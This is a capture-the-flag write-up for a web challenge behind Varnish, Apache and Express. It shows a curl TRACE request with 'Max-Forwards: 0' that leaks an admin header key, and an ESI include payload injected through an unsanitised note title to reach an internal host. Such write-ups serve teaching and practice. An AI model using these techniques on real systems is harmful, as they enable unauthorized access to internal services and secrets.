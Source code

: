 
# **Bypassing Proxy to Get X-Admin-Key and ESI exploit**

Writeup author : dolipr@necrypt0
---

In this CTF challenge, we need to access a backend on the host `give_me_the_flag`. The challenge is beind a reverse proxy and only accept the host `taskvault.fcsc.fr`, so we will need to use multiples vulnerabilities to access the restricted backend.

---

## **Overview of the Files**

The application has 3 services that interact with the request. We will not include the reverse proxy that is challenge is beind because it is not included in the source. But it should be noted that without this first reverse proxy the challenge is trivial because we can just access the host `give_me_the_flag`.

### **1. Varnish**

Varnish is used as a caching layer and can be configured to intercept and manipulate HTTP requests. Here's the relevant part of the Varnish configuration:

```vcl
sub vcl_backend_fetch {
    if (bereq.http.host == "give_me_the_flag") {
        set bereq.backend = flag_backend;
    } else {
        set bereq.backend = default;
    }
}

sub vcl_recv {
    if (req.url == "/" || req.url == "/favicon.jpeg") {
        set req.http.X-Admin-Key = "${ADMIN_KEY}";
    }
    return(pass);
}

sub vcl_backend_response {
    set beresp.do_esi = true;
}
```

We can see the redirection to the flag_backend for the host `give_me_the_flag`, the inclusion of `X-Admin-Key` in the headers of the request and the activation of ESI (Edge Side Includes) which can be used to include a page from the server. The `X-Admin-Key` will be important in the express application at the third layer.

### **2. Apache**

The `apache.conf` file configures an Apache server to forward requests to an Express application via a **ProxyPass**. The relevant part of the configuration looks like this:

```apache
<VirtualHost *:8000>
    TraceEnable on
    ProxyPass / http://taskvault-app:3000/
    ProxyPassReverse / http://taskvault-app:3000/
</VirtualHost>
```

It should be noted that the directive `TraceEnable on` is activated by default. So why include it ? Generally in a CTF, if something is there it's usefull. So it should be considered as a hint and that maybe the `TRACE` method will play an important role.

### **3. Express Application**

The Express app receives requests from Apache and implement some kind of note system. The first thing we see is this :

```javascript
app.use((req, res, next) => {
	const adminKey = req.headers["x-admin-key"];
	
	if (!adminKey || adminKey !== process.env.ADMIN_KEY) {
		return res.status(403).json({ error: "Unauthorized access" });
	}
	next();
});
```

So we can see that every request that doesn't have the header `X-Admin-Key` with the correct value will be rejected by the app, with "Unauthorized access". And this restriction is applied to the whole app, so we can't access anything unless Varnish passes the key, essentially on the root of the webserver.

---

## **Exploiting TRACE and Max-Forwards: 0**

### **What is TRACE?**

The `TRACE` method is an HTTP request method used to echo back the received request. When sent, the server returns the request message as the response body. It will allow us to see the header `X-Admin-Key` and unlock the whole app.

However, when we try to use the `TRACE` method. It is blocked by Express with a message "Cannot TRACE /".

I've spend a lot of time debugging in local and what I realised is that if you disable the directive `ProxyPass` then you can see the `X-Admin-Key` echoed back. So I searched, how can I bypass Express all together ? I was thinking maybe if I crash Express or if I can make a malformed request, maybe I can get the `TRACE` to execute. But unfortunatly this doesn't work.

### **What is Max-Forwards?**

After long research, I was thinking : Apache should have some kind of mechanism to prevent infinite recursion in the proxy. And that's when I found the header `Max-Forwards`.

This header is used in HTTP requests to specify the maximum number of proxies or hops the request can pass through before reaching its destination. Setting `Max-Forwards: 0` tells the proxy that it should **not forward** the request any further and should handle it locally.

And that's the breakthrough that we need. A magic header so that the request never hits the Express app.

### **Exploit**

The following `curl` command sends a `TRACE` request with `Max-Forwards: 0`:

```bash
curl -XTRACE https://taskvault.fcsc.fr/ -H "Max-Forwards: 0"
```

Here’s what happens:
- `-X TRACE` sends a `TRACE` request.
- `-H "Max-Forwards: 0"` ensures that the request isn’t forwarded beyond Apache.
- The Apache server processes the `TRACE` request and responds with the request headers, including the `X-Admin-Key`.

And here is the response with the `X-Admin-Key` :

```http
TRACE / HTTP/1.1
host: taskvault.fcsc.fr
user-agent: curl/8.11.1
accept: */*
max-forwards: 0
X-Forwarded-For: 51.77.135.65
Via: 1.1 taskvault-varnish (Varnish/7.6)
X-Admin-Key: 6d02ed57299292a47615254957d073cc75cc7855248684960946838c1f786081
X-Varnish: 3678791
```

This response contains the sensitive `X-Admin-Key`, which now can be used to authenticate further requests.

---

## **Final exploitation**

Once we have the `X-Admin-Key`, there is still a final step we need to access the host `give_me_the_flag`. We will need to use ESI that is used to cache some part of a page. Essentially, a tag `<esi:include src="http://give_me_the_flag/" />` will trigger a server side request to `http://give_me_the_flag`.

We still need to find a way to include this in the response from the express app so that varnish can process it. It shouldn't be difficult because the app is a note system.

A simple attempt to include the tag doesn't seems to work at first. After a better look at the EJS templates, we see that all the inputs are escaped except from the title inside an id tag:

```javascript
<h3 id="<%- note.title %>" class="text-xl font-bold text-gray-800 mb-2 mt-1"><%= note.title %></h3>
```

The first `note.title` with, the `<%-` openning tag, is not sanitized. But unfortunatly, there is some other code in the app that tries to sanitied this.

```
app.post("/backlog", requireAuth, (req, res) => {
	var { title, content } = req.body;
	title = title.replace(/[^ &-z]/g, "");

	userNotes[req.session.username].push({ title, content });
	res.redirect("/backlog");
});
```

We can see a regex that filters some caracters from the title but not all specials caracters. We can still use `<`, `>` and `'`. We will need to close the tag to somehow trick varnish into processing the ESI instruction. The final payload in the title is:

`x><esi:include src='http://give_me_the_flag/' />`

---

## **Conclusion**

We used a combination of the **TRACE** HTTP method and the **Max-Forwards: 0** header to bypass the proxy and reveal the sensitive `X-Admin-Key`. By sending the `TRACE` request directly to Apache, we were able to retrieve the `X-Admin-Key` from the response. The last step is essentially somekind of XSS escape and bypassing a bad regex.

---
